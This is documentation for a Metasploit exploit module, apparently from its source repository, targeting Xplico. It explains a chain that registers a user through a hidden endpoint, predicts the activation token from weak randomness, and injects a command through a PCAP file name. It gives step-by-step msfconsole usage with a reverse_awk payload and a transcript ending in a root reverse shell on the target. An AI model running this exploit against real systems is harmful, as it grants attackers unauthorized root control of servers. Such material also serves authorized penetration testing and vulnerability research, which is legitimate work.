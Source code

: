 ## Vulnerable Application
This module exploits command injection vulnerability. Unauthenticated users can register a new account and then execute a terminal command under the context of the root user.

The specific flaw exists within the Xplico, which listens on TCP port 9876 by default. The goal of Xplico is extract from an internet 
traffic capture the applications data contained. There is a hidden end-point at inside of the Xplico that allow anyone to create
 a new user. Once the user created through /users/register endpoint, it must be activated via activation e-mail. After the registration Xplico try
to send e-mail that contains activation code. Unfortunetly, this e-mail probably not gonna reach to the given e-mail address on most of installation.
But it's possible to calculate exactly same token value because of insecure cryptographic random string generator function usage.

One of the feature of Xplico is related to the parsing PCAP files. Once PCAP file uploaded, Xplico execute an operating system command in order to calculate checksum
of the file. Name of the for this operation is direclty taken from user input and then used at inside of the command without proper input validation.

**Vulnerable Application Installation Steps**

Follow instruction from "from sourceforge" section at following URL. Don't forget install version 1.2.0 instead of 1.0.0. At the time of this writing, installation commands contains command for version 1.0.0 

[http://wiki.xplico.org/doku.php?id=ubuntu](http://wiki.xplico.org/doku.php?id=ubuntu)

You may also give a try to virtualbox image provided by maintainer of Xplico.
[https://sourceforge.net/projects/xplico/files/VirtualBox%20images/](https://sourceforge.net/projects/xplico/files/VirtualBox%20images/)

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/securityonion_xplico_exec`
- [ ] Set `RHOST`
- [ ] Set `PAYLOAD cmd/unix/reverse_awk`
- [ ] Set `LHOST`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `New user successfully registered` in console.
- [ ] **Verify** that you are seeing `User successfully activated` in console.
- [ ] **Verify** that you are seeing `Successfully authenticated` in console.
- [ ] **Verify** that you are seeing `New Case successfully creted` in console.
- [ ] **Verify** that you are seeing `New Sols successfully creted` in console.
- [ ] **Verify** that you are seeing `PCAP successfully uploaded. Pcap parser is going to start on server side` in console.
- [ ] **Verify** that you are getting `We are at PCAP decoding phase. Little bit more patience...` in console.
- [ ] **Verify** that you have your root shell.

## Scenarios

```
msf > use exploit/linux/http/securityonion_xplico_exec
msf exploit(securityonion_xplico_exec) > set RHOST 12.0.0.30
RHOST => 12.0.0.30
msf exploit(securityonion_xplico_exec) > 
msf exploit(securityonion_xplico_exec) > exploit 

[-] Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
msf exploit(securityonion_xplico_exec) > set payload cmd/unix/
set payload cmd/unix/generic         set payload cmd/unix/reverse_netcat
set payload cmd/unix/reverse_awk     
msf exploit(securityonion_xplico_exec) > set payload cmd/unix/reverse_awk 
payload => cmd/unix/reverse_awk
msf exploit(securityonion_xplico_exec) > set LHOST 12.0.0.1 
LHOST => 12.0.0.1
msf exploit(securityonion_xplico_exec) > exploit 

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: mwbvnyowr
[*] Password: gHPkAvCTXFDVcfTwaAmfoJUoMNHNDIDT
[*] Calculating em_key code of the user
[*] Activating user with em_key = 159d4af63472e2a47e3f3c5c11205a5e
[+] User successfully activated
[*] Authenticating with our activated new user
[+] Successfully authenticated
[*] Creating new case
[+] New Case successfully creted. Our pol_id = 36
[*] Creating new xplico session for pcap
[+] New Sols successfully creted. Our sol_id = 54
[*] Uploading malformed PCAP file
[+] PCAP successfully uploaded. Pcap parser is going to start on server side.
[*] Parsing has started. Wait for parser to get the job done...
[+] We are at PCAP decoding phase. Little bit more patience...
[+] We are at PCAP decoding phase. Little bit more patience...
[+] We are at PCAP decoding phase. Little bit more patience...
[*] Command shell session 1 opened (12.0.0.1:4444 -> 12.0.0.30:39782) at 2017-11-08 14:44:52 +0300

id
uid=0(root) gid=0(root) groups=0(root)
```